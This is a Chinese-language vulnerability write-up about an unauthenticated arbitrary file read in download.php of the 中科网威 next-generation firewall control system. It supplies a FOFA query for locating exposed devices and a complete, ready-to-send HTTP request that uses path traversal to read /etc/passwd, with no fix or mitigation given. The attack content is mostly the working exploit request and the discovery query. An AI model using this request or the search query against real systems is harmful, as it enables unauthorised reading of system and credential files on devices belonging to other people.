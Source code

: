 # 中科网威下一代防火墙控制系统download存在任意文件读取漏洞

# 一、漏洞简介
中科网威-防火墙控制系统是一款由中科网威有限公司开发的网络安全产品，它是基于软件的网络防火墙解决方案，为企业提供了完整的网络安全保障，漏洞点位于：download.php  由于开发人员未对该文件做鉴权，导致恶意攻击者可未授权访读取任意文件。

# 二、影响版本
+ 中科网威下一代防火墙控制系统

# 三、资产测绘
```plain
fofa：body="Get_Verify_Info(hex_md5(user_string)."
```

![1716105114884-70a33e88-bcbd-4a6e-875c-dbbbf08ca27f.png](./img/9XBQdpMPoIfBB4EZ/1716105114884-70a33e88-bcbd-4a6e-875c-dbbbf08ca27f-151998.png)

# 四、漏洞复现
```plain
GET /download.php?&class=vpn&toolname=../../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close

```

![1716105138745-69a8dbc8-b354-4d9a-a1a3-ef939ec89748.png](./img/9XBQdpMPoIfBB4EZ/1716105138745-69a8dbc8-b354-4d9a-a1a3-ef939ec89748-656214.png)



> 更新: 2024-05-23 12:38:07  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qcctbq425bs1ghp6>